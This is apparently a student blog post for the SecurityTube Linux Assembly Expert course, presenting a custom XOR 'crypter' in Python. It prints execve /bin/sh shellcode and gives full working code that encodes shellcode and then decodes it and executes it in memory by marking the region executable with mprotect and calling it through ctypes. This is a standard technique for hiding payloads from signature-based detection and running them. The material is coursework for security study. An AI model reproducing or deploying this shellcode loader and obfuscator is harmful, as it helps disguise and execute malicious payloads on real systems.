



# Assignment #7 - Creating a Custom Crypter

**Exercise description:** Generating a custom crypter, being possible to use any existing schema or create a new one for this exercise. Any programming language is allowed to perform this exercise.

**Code:** The code used within this article can be found [here](https://github.com/SDugo/sdugo.github.io/tree/master/SLAE/Assignment_7/Code)

To complete this task the following system was used:
###### `Linux 3.11.0-15-generic #25~precise1-Ubuntu SMP i686 i386 GNU/Linux`

As there are many implementations and libraries of different encryption schemas on the Internet, this article will show an implementation of a simple schema from scratch. The selected language for this exercise is Python, due to its simpliclity and portability to different operating systems.

## XOR multiple rounds

### Shellcode

The shellcode used for testing the encryption schema will generate a shell using *execve* syscall.

````
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
````
``shellcode for execve(/bin/sh)``

### Encryption

The schema proposed will encrypt an input string by *XORing* the string with a symmetric key. The input data will be *XORed* as many times as the length of the key provided. The output for this functionality will be a list of hexadecimal numbers separated by commas. 

````
def encryption():
    try:
        print('Starting encryption')
        plain_text = input('Enter text to encrypt: ') #Using input() instead of raw_input() to interpret the shellcode as data and not as a simple string
        print('Text to encrypt: ' +str(plain_text))
        encryption_key = raw_input('Enter encryption key: ') #For the encryption key, is different because you can choose a string as password with whatever characters on it
        encryption_key_decimal = int(str(encryption_key).encode("hex"),16) #Getting decimal representation of encryption key for XOR process
        encrypted_text = []
        for x in plain_text:
            decimal_value = int(str(x).encode("hex"),16) #Getting decimal representation of each shellcode char for XOR process
            encrypted_char = 0
            for k in xrange(0,len(encryption_key)):
                encrypted_char = int(encrypted_char) + (decimal_value ^ encryption_key_decimal) #XORing each char with the decimal key, as many times as the length of the key
            encrypted_char = hex(encrypted_char)
            encrypted_text.append(encrypted_char)
        print('Encrypted text is: ' +','.join(encrypted_text))
    except:
        print('An error occured during encryption process.')
        print('Ensure the text introduced is surrounded by double quotes and ensure the text introduced is a shellcode representation like "\\x80".')
````
``Encryption function``



``Encryption - Example of execution``

### Decryption

For a given encrypted string, separated by commas and in hexadecimal format (i.e. *"0x80,0x61"*), the application will decrypt and execute the input provided as shellcode. Of course, it will be necessary to provide the symmetric key used to encrypt the input data, otherwise the application will decrypt the string provided but the shellcode execution will fail due to the invalid shellcode.

````
def decryption():
#This function will reverse the encryption process
    try:
        print('Starting decryption')
        encrypted_text = input('Enter text to decrypt using commas: ')
        print('Text to decrypt: ' + str(encrypted_text))
        decryption_key = raw_input('Enter decryption key: ')
        decryption_key_decimal = int(str(decryption_key).encode("hex"),16)
        decrypted_text = []
        decrypted_text_exec = []
        for y in encrypted_text.split(','): #split every value provided using commas (i.e. "0x80,0x61")
            encrypted_decimal = int(y,0)
            divided_result = encrypted_decimal/len(decryption_key) #As this encryption schema is very simmetric, the trick to decrypt each character is first to divide the decimal representation of each character by the lenght of the encryption/decryption key
            decrypted_char = chr(divided_result ^ decryption_key_decimal) #Then, just XOR the decimal result with the decimal representation of the decryption key 
            decrypted_text.append('\\x' + str(decrypted_char).encode('hex')) #This list will be used for printing the hex representation of the data
            decrypted_text_exec.append(decrypted_char) #This list will contain the actual shellcode to run
        print('Decrypted text is: ' + ''.join(decrypted_text))
        print('Trying to run the decrypted shellcode')
        runshellcode(''.join(decrypted_text_exec)) #Here starts the execution of the shellcode decoded. If the encryption key was invalid, the execution will generate an unknown result
    except:
        print('An error occured during decryption process.')
        print('Ensure the text introduced is surrounded by double quotes and ensure the text introduced is a shellcode representation separated by commas like "0x80,0x61".')

def runshellcode(shellcode):
#This function will run a shellcode provided
#Great idea provided by: http://hacktracking.blogspot.sg/2015/05/execute-shellcode-in-python.html
    try:
        print(shellcode)
        libc = CDLL('libc.so.6')
        sc = c_char_p(shellcode)
        size = len(shellcode)
        addr = c_void_p(libc.valloc(size))
        memmove(addr, sc, size)
        libc.mprotect(addr, size, 0x7)
        run = cast(addr, CFUNCTYPE(c_void_p))
        run()
    except:
        print('An error occured while trying to execute the decrypted shellcode')
````
``Decryption function``



``Decryption - Example of execution``

### Final code

````
#!/usr/bin/python

"""
 Filename:   custom_crypter.py
 Author:     Samuel Dugo
 SLAE-ID:    SLAE-1376
 Purpose:    Assignment #7 of SLAE certification. This code will encrypt a provided shellcode, and then it will attempt to decrypt and execute the shellcode.
"""

import binascii
from ctypes import *
import argparse

parser = argparse.ArgumentParser(description='This is a demo script that will encrypt/decrypt a text string using multiple rounds of XOR based on the key lenght.')
parser.add_argument('-e','--encrypt', help='Call encryption functionality', action='store_true')
parser.add_argument('-d','--decrypt', help='Call decryption functionality', action='store_true')
args = parser.parse_args()


def encryption():
    try:
        print('Starting encryption')
        plain_text = input('Enter text to encrypt: ')
        print('Text to encrypt: ' +str(plain_text))
        encryption_key = raw_input('Enter encryption key: ')
        encryption_key_decimal = int(str(encryption_key).encode("hex"),16)
        encrypted_text = []
        for x in plain_text:
            decimal_value = int(str(x).encode("hex"),16)
            encrypted_char = 0
            for k in xrange(0,len(encryption_key)):
                encrypted_char = int(encrypted_char) + (decimal_value ^ encryption_key_decimal)
            encrypted_char = hex(encrypted_char)
            encrypted_text.append(encrypted_char)
        print('Encrypted text is: ' +','.join(encrypted_text))
    except:
        print('An error occured during encryption process.')
        print('Ensure the text introduced is surrounded by double quotes and ensure the text introduced is a shellcode representation like "\\x80".')

def decryption():
    try:
        print('Starting decryption')
        encrypted_text = input('Enter text to decrypt using commas: ')
        print('Text to decrypt: ' + str(encrypted_text))
        decryption_key = raw_input('Enter decryption key: ')
        decryption_key_decimal = int(str(decryption_key).encode("hex"),16)
        decrypted_text = []
        decrypted_text_exec = []
        for y in encrypted_text.split(','):
            encrypted_decimal = int(y,0)
            divided_result = encrypted_decimal/len(decryption_key)
            decrypted_char = chr(divided_result ^ decryption_key_decimal)
            decrypted_text.append('\\x' + str(decrypted_char).encode('hex'))
            decrypted_text_exec.append(decrypted_char)
        print('Decrypted text is: ' + ''.join(decrypted_text))
        print('Trying to run the decrypted shellcode')
        runshellcode(''.join(decrypted_text_exec))
    except:
        print('An error occured during decryption process.')
        print('Ensure the text introduced is surrounded by double quotes and ensure the text introduced is a shellcode representation separated by commas like "0x80,0x61".')

def runshellcode(shellcode):
    try:
        print(shellcode)
        libc = CDLL('libc.so.6')
        sc = c_char_p(shellcode)
        size = len(shellcode)
        addr = c_void_p(libc.valloc(size))
        memmove(addr, sc, size)
        libc.mprotect(addr, size, 0x7)
        run = cast(addr, CFUNCTYPE(c_void_p))
        run()
    except:
        print('An error occured while trying to execute the decrypted shellcode')


def main():
    if args.encrypt:
        encryption()
    elif args.decrypt:
        decryption()

if __name__ == "__main__":
    main()
````
``custom_crypter.py``



``Usage menu of custom_crypter.py``

### Special considerations
Though the encryption schema provided is good to start learning about encryption/decryption processes using Python, it contains multiple security deficences and should not be used as a serious encryption mechanism.

For instance, this schema will generate similar results for similar characters, so it would be possible to identify some characters by observing the repitition of patterns on the encrypted string. This way, it would be possible to decrypt the string by generating a dictionary of characters based on the patterns identified.

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:*

*https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*

*Student ID: SLAE-1376*
